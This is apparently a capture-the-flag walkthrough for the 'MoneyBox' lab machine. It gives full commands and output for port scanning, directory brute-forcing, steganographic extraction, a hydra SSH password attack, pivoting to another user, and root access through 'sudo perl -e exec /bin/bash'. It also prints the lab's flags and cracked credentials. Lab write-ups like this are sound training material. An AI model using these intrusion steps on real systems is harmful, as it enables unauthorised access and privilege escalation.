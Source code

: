 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.197.230

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-21 10:52 EST
Nmap scan report for 192.168.197.230
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.96 seconds
```
-> Nothing to see... So I go to the webpage, checked for hidden stuff on the source code, but nothing.

```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1><big>Hai Everyone......!</big></h1>
    <h2>Welcome To MoneyBox CTF</h2>
    <p><pre>
  __  __                        ____            
 |  \/  |                      |  _ \           
 | \  / | ___  _ __   ___ _   _| |_) | _____  __
 | |\/| |/ _ \| '_ \ / _ \ | | |  _ < / _ \ \/ /
 | |  | | (_) | | | |  __/ |_| | |_) | (_) >  < 
 |_|  |_|\___/|_| |_|\___|\__, |____/ \___/_/\_\
                           __/ |                
                          |___/                 </p><br>
    <p><b>it's a very simple Box.so don't overthink</b></p>
</body>
</html>
```

-> So I started scanning for hidden directories or files

```
┌──(root㉿kali)-[/home/astra]
└─# gobuster dir -u http://192.168.197.230/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150

===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.230/
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/21 10:55:51 Starting gobuster in directory enumeration mode
===============================================================
/blogs                (Status: 301) [Size: 318] [--> http://192.168.197.230/blogs/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/02/21 10:59:20 Finished
===============================================================
```

-> I found this directory called "blogs" I got to it and I found something interesting in the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>I'm T0m-H4ck3r</h1><br>
        <p>I Already Hacked This Box and Informed.But They didn't Do any Security configuration</p>
        <p>If You Want Hint For Next Step......?<p>
</body>
</html>
```


<!--the hint is the another secret directory is S3cr3t-T3xt-->

-> So, I go to http://192.168.197.230/S3cr3t-T3xt/ and found this on the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>There is Nothing In this Page.........</h1>
</body>
</html>

<!..Secret Key 3xtr4ctd4t4 >
```
-> I thought this maybe an password "extractdata" so I tried to connect to ftp, for my surprise it had an image that I had missed on, I download it and I run steghide command to see if it has anything, using the password "extractdata"
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.197.230

Connected to 192.168.197.230.
220 (vsFTPd 3.0.3)
Name (192.168.197.230:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||56601|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
```
-> Here I run the command "get" to download the image on my machine on the current directory
```
ftp> get trytofind.jpg 

local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||48069|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).
100% |***********************************************************************************************************|  1068 KiB  237.53 KiB/s    00:00 ETA
226 Transfer complete.
1093656 bytes received in 00:04 (230.84 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                       
┌──(root㉿kali)-[/home/astra]
└─# steghide --extract -sf trytofind.jpg
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# cat data.txt   
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```
-> Now I got a user called "renu" and the file tells me the password is too week, so I will use hydra to try and crack the ssh password
```
┌──(root㉿kali)-[/home/astra]
└─# hydra -l renu -P rockyou.txt -f 192.168.197.230 ssh -I

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-21 11:11:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.197.230:22/
[22][ssh] host: 192.168.197.230   login: renu   password: 987654321
[STATUS] attack finished for 192.168.197.230 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-21 11:12:24
```                                                                                           
-> Found the password "987654321" now I will connect to the ssh and get the first flag
```
┌──(root㉿kali)-[/home/astra]
└─# ssh -l renu 192.168.197.230         

renu@192.168.197.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ ls
ftp  local.txt
renu@MoneyBox:~$ cat local.txt 
ee278fead71bfc63679ae9a112139df0
renu@MoneyBox:~$ 
```
-> Now we got the first flag ! I go to /home/ and find an user called "lily" and I also got the authorized_key from renu, meaning he can connect to ssh without password
```
renu@MoneyBox:/home$ ls

lily  renu
renu@MoneyBox:/home$ cd lily
renu@MoneyBox:/home/lily$ ls
renu@MoneyBox:/home/lily$ ls -la
total 32
drwxr-xr-x 4 lily lily 4096 Oct 11 10:52 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 lily lily  985 Feb 26  2021 .bash_history
-rw-r--r-- 1 lily lily  220 Feb 25  2021 .bash_logout
-rw-r--r-- 1 lily lily 3526 Feb 25  2021 .bashrc
drwxr-xr-x 3 lily lily 4096 Feb 25  2021 .local
-rw-r--r-- 1 lily lily  807 Feb 25  2021 .profile
drwxr-xr-x 2 lily lily 4096 Feb 26  2021 .ssh

renu@MoneyBox:/home/lily$ cd .ssh
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
renu@MoneyBox:/home/lily/.ssh$ 
```
-> Now I use ssh lily@192.168.197.230, and got into lily user 
```
renu@MoneyBox:~$ ssh lily@192.168.197.230

The authenticity of host '192.168.197.230 (192.168.197.230)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.197.230' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80

lily@MoneyBox:~$ 
```
-> I do an sudo -l and I can see that lily can run perl commands as root without asking for password, so I do an simple perl command and got root access. 
```
lily@MoneyBox:/$ sudo perl -e 'exec "/bin/bash";'
root@MoneyBox:/# cd root
root@MoneyBox:~# ls
proof.txt
root@MoneyBox:~# cat proof.txt 
bf3e7ad76f3dfd2cd63774da95695246
root@MoneyBox:~# gg
```



